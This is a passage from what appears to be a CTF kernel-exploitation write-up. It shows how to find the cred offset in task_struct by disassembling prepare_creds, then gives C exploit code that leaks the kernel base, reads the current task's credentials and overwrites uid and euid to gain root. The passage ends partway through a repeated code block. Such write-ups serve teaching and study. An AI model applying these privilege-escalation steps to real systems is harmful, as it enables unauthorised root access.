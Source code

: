 
## Overwriting uids in task_struct->cred
As I explained earlier, `task_struct->cred` stores uid, gid, euid etc of the process. For escalating, we can overwrite these to make the kernel think that a process was started by `root`.<br>
For this we need to get the offset of `cred` in `task_struct`. Usually, it is done by [making a kernel module](https://pr0cf5.github.io/ctf/2019/10/10/balsn-ctf-krazynote.html). But, I wanted to have some other solution. I looked at the source code of `prepare_creds` function and it accessed the `cred` member from current `task_struct`. When I decompiled the function I saw the offset used.
```
gef➤  disas prepare_creds 
Dump of assembler code for function prepare_creds:
   0xffffffff8108d1e0 <+0>:     push   r12
   0xffffffff8108d1e2 <+2>:     mov    rdi,QWORD PTR [rip+0x1e06fe7] # 0xffffffff82e941d0
   0xffffffff8108d1e9 <+9>:     mov    esi,0xcc0
   0xffffffff8108d1ee <+14>:    push   rbp
   0xffffffff8108d1ef <+15>:    mov    rbp,QWORD PTR gs:0x16d00  <-- current_task offset
   0xffffffff8108d1f8 <+24>:    call   0xffffffff811de460 <kmem_cache_alloc>
   0xffffffff8108d1fd <+29>:    test   rax,rax
   0xffffffff8108d200 <+32>:    je     0xffffffff8108d341 <prepare_creds+353>
   0xffffffff8108d206 <+38>:    mov    rbp,QWORD PTR [rbp+0x6b8]     <-- cred offset
   0xffffffff8108d20d <+45>:    mov    rdi,rax
   0xffffffff8108d210 <+48>:    mov    ecx,0x16
   0xffffffff8108d215 <+53>:    mov    r12,rax
   0xffffffff8108d218 <+56>:    mov    rsi,rbp
   0xffffffff8108d21b <+59>:    rep movs QWORD PTR es:[rdi],QWORD PTR ds:[rsi]
   0xffffffff8108d21e <+62>:    mov    DWORD PTR [rax],0x1
   0xffffffff8108d224 <+68>:    mov    DWORD PTR [rax+0xa0],0x0
   0xffffffff8108d22e <+78>:    mov    rax,QWORD PTR [rax+0x98]
   0xffffffff8108d235 <+85>:    lock inc DWORD PTR [rax]
   0xffffffff8108d238 <+88>:    mov    eax,0x1
[truncated]
```
So, we got `0x6b8` as offset. Let's add this to our exploit.
```c
int main(int argc, char *argv[]){
    uint64_t ptr = get_leak();

    uint64_t kbase = ptr - 0x1074ec0;
    uint64_t per_cpu_offset = kbase + 0x14176a0;

    ptr = arb_read_ptr(per_cpu_offset);

    uint64_t task_struct = arb_read_ptr(ptr + 0x16d00);
    uint64_t current_cred_addr = task_struct + 0x6b8;
    uint64_t current_cred = arb_read_ptr(current_cred_addr);

    printf("kernel base: %p\n", kbase);
    printf("task_struct: %p\n", task_struct);
    printf("current cred: %p\n", current_cred);
}
```
Now we just need to write `0` to the uids. Initially I overwrote all six with zero. Upon trial-and-error, I found out that overwriting only `uid` and `euid` is enough. I changed the uid in `init` back to `1000` to see it in gdb. I found out that the uids start after an int.
```c
int main(int argc, char *argv[]){
    uint64_t ptr = get_leak();

    uint64_t kbase = ptr - 0x1074ec0;
    uint64_t per_cpu_offset = kbase + 0x14176a0;

    ptr = arb_read_ptr(per_cpu_offset);

    uint64_t task_struct = arb_read_ptr(ptr + 0x16d00);
```